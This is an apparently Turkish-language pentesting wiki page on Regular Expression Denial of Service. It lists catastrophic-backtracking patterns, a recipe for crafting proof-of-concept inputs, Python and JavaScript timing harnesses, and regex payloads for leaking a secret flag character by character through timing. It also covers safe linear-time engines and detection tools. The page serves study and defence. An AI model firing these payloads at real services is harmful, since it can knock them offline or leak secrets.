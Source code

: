 # Regular expression Denial of Service - ReDoS

{{#include ../banners/hacktricks-training.md}}

# Regular Expression Denial of Service (ReDoS)

Bir **Regular Expression Denial of Service (ReDoS)**, regular expressions (metindeki kalıpları arama ve eşleştirme yöntemi)in nasıl çalıştığındaki zayıflıklardan yararlanılması sonucu oluşur. Bazen regular expressions kullanıldığında çok yavaşlayabilirler, özellikle üzerinde çalıştıkları metin parçası büyüdükçe. Bu yavaşlama, metin boyutundaki küçük artışlarla bile çok hızlı şekilde artabilir. Saldırganlar bu problemi kullanarak regular expressions kullanan bir programın uzun süre düzgün çalışmasını engelleyebilirler.

## The Problematic Regex Naïve Algorithm

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Engine behavior and exploitability

- En popüler engine'lerin çoğu (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) bir **backtracking** VM kullanır. Alt deseni eşleştirmek için çok sayıda örtüşen yol yaratan özel hazırlanmış girdiler, üstel veya yüksek-dereceli polinomik backtracking'e zorlar.
- Bazı engine'ler/kütüphaneler yapı gereği **ReDoS-resilient** olacak şekilde tasarlanmıştır (backtracking yok), örn. **RE2** ve sınırlı otomataya dayalı portlar en kötü durumda lineer zaman sağlar; bunları güvensiz girdiler için kullanmak backtracking DoS ilkelini ortadan kaldırır. Detaylar için sondaki referanslara bakın.

## Evil Regexes <a href="#evil-regexes" id="evil-regexes"></a>

Kötü niyetli bir regular expression deseni, özel hazırlanmış girdide **takılıp kalarak bir DoS'e yol açabilen** desendir. Kötü regex desenleri tipik olarak tekrar içeren gruplaşma ve tekrar içinde örtüşme veya alternasyon içerir. Kötü desenlere bazı örnekler:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

Bunların hepsi `aaaaaaaaaaaaaaaaaaaaaaaa!` girdisine karşı savunmasızdır.

### Practical recipe to build PoCs

Çoğu yıkıcı durum şu yapıyı izler:

- Vulnerable alt desene girmenizi sağlayan bir prefix (opsiyonel).
- İç içe/örtüşen quantifier'lar içinde belirsiz eşleşmelere yol açan uzun bir karakter dizisi (ör. birçok `a`, `_` veya boşluk).
- Motorun tüm olasılıkları geri izlemek zorunda kalacağı, nihai başarısızlığı zorlayan bir karakter (çoğunlukla son token ile eşleşmeyen bir karakter, ör. `!`).

Minimal örnekler:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

N'i artırın ve doğrusalın üzerinde büyüme gözlemleyin.

#### Hızlı zamanlama düzeneği (Python)
```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
s = 'v' + '_'*n + '!'
t0=time.time(); pat.search(s); dt=time.time()-t0
print(n, f"{dt:.3f}s")
```
## ReDoS Payloads

### String Exfiltration via ReDoS

Bir CTF (veya bug bounty) ortamında belki siz **hassas bir bilginin (flag) eşleştirildiği Regex'i kontrol ediyorsunuz**. Bu durumda, bir **Regex eşleştiğinde** ve **eşleşmediğinde değilse**, sayfanın **donmasını (timeout veya daha uzun işlem süresi)** sağlamak faydalı olabilir. Bu şekilde stringi **exfiltrate** **char by char** elde edebilirsiniz:

- [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) içinde bu ReDoS kuralını bulabilirsiniz: `^(?=<flag>)((.*)*)*salt$`
- Örnek: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) içinde şu kuralı bulabilirsiniz: `<flag>(((((((.*)*)*)*)*)*)*)!`
- [**this writeup**](https://ctftime.org/writeup/25869) şu ifadeyi kullandı: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

Aşağıdakiler, hem **input**'u hem de **regex**'i **control** ettiğiniz **ReDoS** örnekleridir:
```javascript
function check_time_regexp(regexp, text) {
var t0 = new Date().getTime()
new RegExp(regexp).test(text)
var t1 = new Date().getTime()
console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
//  "((a+)+)+$",  //Eternal,
//  "(a?){100}$", //Eternal
"(a|a?)+$",
"(\\w*)+$", //Generic
"(a*)+$",
"(.*a){100}$",
"([a-zA-Z]+)*$", //Generic
"(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```
### Saldırganlar için dil/motor notları

- JavaScript (browser/Node): Dahili `RegExp` bir backtracking motorudur ve regex+input saldırgan tarafından etkileniyorsa genellikle istismar edilebilir.
- Python: `re` backtracking'tir. Uzun belirsiz tekrarlar artı başarısız bir kuyruk genellikle catastrophic backtracking'e yol açar.
- Java: `java.util.regex` backtracking'tir. Sadece input'u kontrol ediyorsanız, karmaşık validator'lar kullanan endpoint'lere bakın; pattern'leri (ör. stored rules) kontrol ediyorsanız, ReDoS genellikle basittir.
- Engines such as **RE2/RE2J/RE2JS** or the **Rust regex** crate are designed to avoid catastrophic backtracking. If you hit these, focus on other bottlenecks (e.g., enormous patterns) or find components still using backtracking engines.

## Araçlar

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
- Zayıf regex'leri bul ve kötü amaçlı girdileri otomatik oluştur. Örnekler:
- `pip install regexploit`
- Bir pattern'i etkileşimli analiz et: `regexploit`
- Regex'ler için Python/JS kodunu tara: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
- Bir projeden regex'leri çıkarmak, zayıf olanları tespit etmek ve PoC'leri hedef dilde doğrulamak için uçtan uca pipeline. Büyük kod tabanlarında arama yaparken faydalı.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
- Bir pattern'in güvenli olup olmadığını raporlamak için backtracking hakkında akıl yürüten basit bir CLI/JS kütüphanesi.

> Tip: Sadece input'u kontrol ediyorsanız, uzunlukları ikiye katlanan stringler üretin (ör. 2^k karakter) ve gecikmeyi izleyin. Üstel büyüme, genellikle uygulanabilir bir ReDoS olduğunu güçlü bir şekilde gösterir.

## Referanslar

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): A Literature and Engineering Review of Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

{{#include ../banners/hacktricks-training.md}}
